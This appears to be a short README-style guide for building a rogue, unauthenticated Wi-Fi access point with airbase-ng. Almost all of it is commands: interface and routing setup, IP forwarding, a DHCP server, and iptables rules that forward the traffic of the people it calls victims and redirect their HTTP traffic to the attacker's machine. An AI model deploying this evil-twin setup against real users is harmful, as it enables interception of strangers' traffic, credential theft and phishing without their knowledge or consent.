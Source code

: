 ## Creating the AP

With `airbase` we can set up our fake AP without authentication:

```
airbase-ng -e <ESSID> -c <CHANNEL> -P <IFACE>
```

### Configuring a new network interface

Onced launched our new fake AP, we need to add a new network interface.

```
ifconfig at0 192.168.1.129 netmask 255.255.255.128
route add -net 192.168.1.128 netmask 255.255.255.128 gw 192.168.1.129

echo 1 > /proc/sys/net/ipv4/ip_forward

ifconfig at0

at0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.1.129  netmask 255.255.255.128  broadcast 192.168.1.255
        inet6 fe80::e670:b8ff:fed3:935c  prefixlen 64  scopeid 0x20<link>
        ether e4:70:b8:d3:93:5c  txqueuelen 1000  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 57  bytes 8828 (8.6 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

### Configuring IP tables

The idea is to redirect the traffic coming from victims from at0 to eth0 in order to give them connection to internet.

```
iptables --flush
iptables --table nat --flush
iptables --delete-chain
iptables --table nat --delete-chain

iptables --table nat --append POSTROUTING --out-interface eth0 -j MASQUERADE
iptables --append FORWARD --in-interface at0 -j ACCEPT
iptables -t nat -A PREROUTING -p tcp --dport 80 -j DNAT --to-destination $(hostname -I | awk '{print $1}'):80
iptables -t nat -A POSTROUTING -j MASQUERADE
```

### Syncronize

Finally the last step is syncronize our rules to the fake AP.

```
dhcpd -cf /etc/dhcpd.conf -pf /var/run/dhcp.pid at0
```
